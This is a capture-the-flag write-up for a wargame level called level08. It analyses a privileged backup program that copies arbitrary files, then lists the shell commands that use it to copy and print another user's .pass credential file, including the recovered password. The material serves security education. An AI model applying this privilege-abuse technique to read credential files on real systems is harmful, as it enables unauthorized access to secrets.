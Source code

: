 # level08

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Full RELRO      Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level08/level08
```

The program take one argument: a file name. It opens the `./backups/.log` and the file pointed by the only argument. It
copies char by char the content of the argument into a new file in `./backups/` and close everything.

## Exploit

The exploit is quite straightforward: first go to the only folder we have rights to write, `/tmp/`.

```console
level08@OverRide:~$ cd /tmp
```

Then we are going to re-create a path for our file:

```console
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09/
```

Ok, now we are calling `level08` program with the `level09`'s `.pass` file:

```console
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
```

And our `.pass` is copied!

```console
level08@OverRide:/tmp/backups$ cat home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

✌️
